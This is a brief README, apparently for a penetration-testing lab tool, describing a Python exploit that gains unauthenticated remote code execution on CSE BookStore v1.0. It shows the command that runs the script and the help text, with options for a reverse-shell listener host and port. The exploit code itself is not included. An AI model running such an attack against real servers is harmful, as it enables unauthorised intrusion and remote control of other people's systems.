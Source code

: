 # CSE Book Store Unauthenticated RCE
Automatic python3 script to exploit CSE BookStore v1.0

<hr>

#### 1. Basic Usage:
```txt
$ python3 cse_bookstore.py -u <url> -l <pentesterIP> -p <pentesterPort>
```
#### 2. Help Menu:
```txt
[13:37:13] Jae-Nguyen:~/Documents/pg/dawn/custom_expl$ python3 cse_bookstore.py --help
usage: cse_bookstore.py [-h] [-u URL] [-l LHOST] [-p LPORT]

----- CSE Bookstore Unauthenticated RCE -----

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to CSE Bookstore.
  -l LHOST, --lhost LHOST
                        Local host for a reverse shell.
  -p LPORT, --lport LPORT
                        Local port for a reverse shell.
```
#### 3. Example

![](Example.gif)
